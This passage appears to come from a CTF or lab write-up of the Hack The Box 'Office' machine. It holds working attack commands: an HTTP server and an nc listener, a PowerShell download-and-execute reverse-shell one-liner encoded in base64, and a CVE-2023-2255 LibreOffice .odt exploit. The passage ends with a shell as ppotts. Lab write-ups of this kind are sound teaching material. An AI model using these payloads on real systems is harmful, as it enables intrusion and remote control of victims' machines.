 **HTTP server to share Invoke-ConPtyShell.ps1**
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**nc listener to receive shell**
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

**Craft the encoded command to execute with powershell**
```bash
❯ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.67/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.67 -RemotePort 443 -Rows 50 -Cols 184" | iconv -t utf16le | base64 -w 0; echo
```

**Craft the .odt file to exploit LibreOffice and execute command**
```bash
❯ python3 CVE-2023-2255.py --cmd "cmd /c powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYANwAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsAIABJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgAC0AUgBlAG0AbwB0AGUASQBwACAAMQAwAC4AMQAwAC4AMQA0AC4ANgA3ACAALQBSAGUAbQBvAHQAZQBQAG8AcgB0ACAANAA0ADMAIAAtAFIAbwB3AHMAIAA1ADAAIAAtAEMAbwBsAHMAIAAxADgANAA="
File output.odt has been created !
```

![Upload successfull](/assets/images/Office/upload_successful.png)

And we receive shell as ppotts:

```powershell
PS C:\Program Files\LibreOffice 5\program> whoami
office\ppotts
```

# Access as hhogan

Enumerating with winpeas, I can see some DPAPI credential files belonging to ppotts:
